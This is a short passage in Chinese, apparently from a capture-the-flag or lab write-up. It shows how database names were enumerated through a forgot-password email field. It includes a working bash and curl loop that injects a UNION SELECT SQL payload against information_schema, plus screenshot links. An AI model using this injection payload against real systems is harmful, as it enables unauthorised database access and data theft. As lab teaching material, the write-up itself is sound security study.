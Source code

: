 发现到了第四列的时候，出现了有关邮箱的格式。

[![](assets/1703640271-a736cda43e099907fa89246ef0b48fea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155542-2ad0ddec-a3c4-1.png)

使用脚本枚举数据库。

```plain
for i in {0..100}; do curl -s http://10.10.10.31/cmsdata/forgot.php --data-urlencode "email=a@b.c' UNiON SELECT 1,schema_name,3,'a@b.c' from information_schema.schemata limit ${i},1;-- -" | grep '<h2>' | awk '{print $5}' | grep -v "^with$" || break; done | cut -d'>' -f2
```

[![](assets/1703640271-e0d2287d387d4c71726c8bc2d2e5e12f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155602-36e4a3a2-a3c4-1.png)  
使用 GROUP\_CONCATSQL 函数，它将一整列合并为一个结果。

[![](assets/1703640271-e4903c63bdcb4ec06afa3ecb8c57924c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155552-30be3934-a3c4-1.png)
